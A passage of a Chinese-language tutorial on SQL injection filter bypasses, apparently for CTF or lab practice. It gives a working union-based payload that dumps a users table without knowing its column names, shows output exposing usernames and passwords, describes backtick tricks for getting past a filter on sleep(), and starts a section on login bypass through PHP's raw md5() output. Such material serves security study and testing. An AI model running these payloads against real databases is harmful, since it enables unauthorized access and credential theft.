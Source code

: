 这里我们已经拿到了想要的数据，并且绕过了列名。接下来需要将这次的返回结果作为子查询，由外层的SELECT子句筛选我们想要的值：

```mysql
mysql> select group_concat(abc),group_concat(`123`),group_concat(`000`) from (select 'abc',123,000 union select * from users limit 1,999999)a;
	# 必须给子查询指定别名，这里用的别名是a，否则报错：ERROR 1248 (42000): Every derived table must have its own alias
	# group_concat调用数字类型的列名时必须加反引号进行转置，否则列名会被解析成数字字符串，而不是对应的列
    +-------------------+---------------------+------------------------+
    | group_concat(abc) | group_concat(`123`) | group_concat(`000`)    |
    +-------------------+---------------------+------------------------+
    | 1,2               | Dumb,Angelina       | admin,root             |
    +-------------------+---------------------+------------------------+
    1 row in set (0.00 sec)
```

最终构造Payload：`' and 1=0 union select group_concat(abc),group_concat(`123`),group_concat(`000`) from (select 'abc',123,000 union select * from users limit 1,999999)a;# `

```sql
mysql> select * from users where username='' and 1=0 union select group_concat(abc),group_concat(`123`),group_concat(`000`) from (select 'abc',123,000 union select * from users limit 1,999999)a;
    +-------------------+---------------------+------------------------+
    | group_concat(abc) | group_concat(`123`) | group_concat(`000`)    |
    +-------------------+---------------------+------------------------+
    | 1,2               | Dumb,Angelina       | admin,root             |
    +-------------------+---------------------+------------------------+
    1 row in set (0.00 sec)
```

## §4.10 反引号

反引号用于区分SQL的保留字与普通字符，在各大SQL数据库中均适用。如果`sleep(1)`被屏蔽，可以试试```sleep`(1)``。

# §5 PHP与SQL的综合Bypass

## §5.1 PHP的`md5()`

[PHP官方文档](https://www.php.net/manual/en/function.md5.php)对`md5()`的定义如下：

> `md5(string $string, bool $binary = false): string`
>
> - string
>
>   待加密的字符串
>
> - binary
>
>   可选。为`true`时返回16字节的二进制形式。

审计以下代码：

```php
$username = addslashes(......)
$password = md5(......,true);
$sql = "select * from users where username='$username' and password='$password'";
```
